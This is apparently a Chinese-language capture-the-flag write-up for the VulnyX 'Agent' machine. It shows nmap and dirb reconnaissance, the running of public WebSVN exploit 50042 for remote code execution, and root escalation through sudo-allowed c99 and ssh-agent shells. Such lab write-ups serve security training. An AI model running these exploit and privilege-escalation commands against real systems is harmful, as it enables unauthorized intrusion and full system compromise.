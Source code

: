 # 环境

来自[Agent](https://vulnyx.com/#Agent)，利用已知websvn漏洞拿shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240723121044383](image/image-20240723121044383.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.34
```

![image-20240723122516718](image/image-20240723122516718.png)

## 目录扫描

```bash
dirb http://192.168.88.34
```

![image-20240723172750561](image/image-20240723172750561.png)

访问80，是一个Nginx是测试页面

```bash
whatweb http://192.168.88.34/websvn
```

![image-20240723172840390](image/image-20240723172840390.png)

# web渗透

## 利用已知漏洞

```
searchsploit websvn
searchsploit -m 50042
```

![image-20240723173030461](image/image-20240723173030461.png)

有一个远程代码执行，下载漏洞脚本，查看和编辑

![image-20240723173718000](image/image-20240723173718000.png)

```bash
python 50042.py http://192.168.88.34/websvn
```

![image-20240723173820609](image/image-20240723173820609.png)

## 提取

sudo看一下有什么权限

![image-20240723174715113](image/image-20240723174715113.png)

可以看到dustin免密执行[c99](https://gtfobins.github.io/gtfobins/c99/)提权

```bash
sudo -u dustin /usr/bin/c99 -wrapper /bin/sh,-s .
```

![image-20240723174820584](image/image-20240723174820584.png)

拿下dustin用户，再看一下sudo

![image-20240723174909941](image/image-20240723174909941.png)

[ssh-agent](https://gtfobins.github.io/gtfobins/ssh-agent/)提权

```bash
sudo /usr/bin/ssh-agent /bin/bash
```

![image-20240723175121341](image/image-20240723175121341.png)